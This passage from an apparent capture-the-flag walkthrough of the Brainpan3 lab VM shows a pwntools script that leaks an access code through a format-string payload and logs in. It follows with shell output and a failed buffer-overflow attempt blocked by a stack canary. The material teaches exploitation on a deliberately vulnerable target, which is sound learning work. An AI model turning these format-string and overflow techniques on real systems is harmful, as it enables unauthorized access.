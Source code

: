 ```
# r - Our socket object

###
# Get access code
###
r.sendline('%d.' * 3 + 'A' * 80)
r.recvuntil("ACCESS CODE: ")
output = r.recv()
code = output.split('.')[2]

log.info("Code identified: {}".format(code))

r.sendline(code)

r.interactive()
```

## Step 2

Now that we are logged in, we can do a bit more exploration. Oh look, we are already given a shell:

```
ENTER COMMAND: 4
SELECTED: 4
reynard@brainpan3 $ ls
total 0
-rw-rw-r-- 1 reynard reynard 22 May 10 22:26 .flag
-rw-rw-r-- 1 reynard reynard  0 May 10 22:26 never
-rw-rw-r-- 1 reynard reynard  0 May 10 22:26 gonna
-rw-rw-r-- 1 reynard reynard  0 May 10 22:26 give
-rw-rw-r-- 1 reynard reynard  0 May 10 22:26 you
-rw-rw-r-- 1 reynard reynard  0 May 10 22:26 up
-rw-rw-r-- 1 reynard reynard  0 May 10 22:26 never
-rw-rw-r-- 1 reynard reynard  0 May 10 22:26 gonna
-rw-rw-r-- 1 reynard reynard  0 May 10 22:26 let
-rw-rw-r-- 1 reynard reynard  0 May 10 22:26 you
-rw-rw-r-- 1 reynard reynard  0 May 10 22:26 down
```

Of course, superkojiman would rick roll hackers. Thanks!

We can try to overflow this shell script/binary:

```
reynard@brainpan3 $ AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
*** stack smashing detected ***: ./shell terminated
```

No dice. Canary is in the way (supposedly).

After more exploration of trying the typical recon commands `whoami`, `uname -a`, ect, we can come to the conclusion that this shell is useless.
